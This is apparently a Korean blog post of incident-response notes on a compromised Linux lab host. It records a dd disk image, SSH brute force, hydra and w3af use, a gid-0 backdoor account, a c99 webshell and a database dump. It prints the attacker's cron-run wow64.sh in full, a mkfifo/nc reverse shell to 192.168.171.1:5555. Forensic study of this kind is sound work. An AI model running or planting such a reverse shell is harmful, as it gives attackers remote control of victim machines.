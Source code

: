 ```yaml
---
layout : post
title : 침해사고분석 - Linux
---
```


### Linux Image Dump

> ex) dd if=/dev/sda of=/mnt/hgfs/LinuxImage/linux.dd

<br>

### 실습

>**Victim IP**
>
>192.168.171.188
>
>**Attacker IP**
>
>192.168.171.1, 192.168.171.146, 192.168.171.182
>
><br>
>
>**crontab**
>
>/tmp/wow64.sh 쉘 스크립트 실행 등록
>
><br>
>
>**wow64.sh**
>
>#!/bin/bash
>
>mknod /tmp/backpipe p
>
>/bin/sh 0</tmp/backpipe | nc 192.168.171.1 5555 1>/tmp/backpipe
>
><br>
>
>**/etc/passwd**
>
>infosechack 계정 root도 아닌데 gid가 0
>
><br>
>
>**/var/log/auth.log**
>
>Nov 1 21:32:20 192.168.171.146
>
>ssh brute force attack
>
>Nov 1 21:41:02 192.168.171.1
>
>1. Windows SSH Client로 SSH 접속
>2. root로 로그인 성공
>3. infosechack useradd 됨
>4. 로그아웃 후 infosechack으로 다시 ssh 접속
>
><br>
>
>**/var/log/access.log**
>
>Nov 1 21:19:16
>
>192.168.171.182
>
>vega 사용(brute force 툴)
>
>192.168.171.146
>
>w3af 사용(웹앱 공격 툴)
>
>/morningmall/m_login_ok.php
>
>hydra 사용(brute force 툴) 
>
><br>
>
>**/var/log/apache2/access.log**
>
>Nov 1 23:29:02 192.168.171.1
>
>c99_madnet.php 접근(php webshell)
>
>코드 난독화
>
>base64 php decoding
>
><br>
>
>**/var/www/morningmall/dump_192.168.171.188_mysql_02-11-2014-00-07-10.sql**
>
>2014-11-02 00:07:10
>
>sql 덤프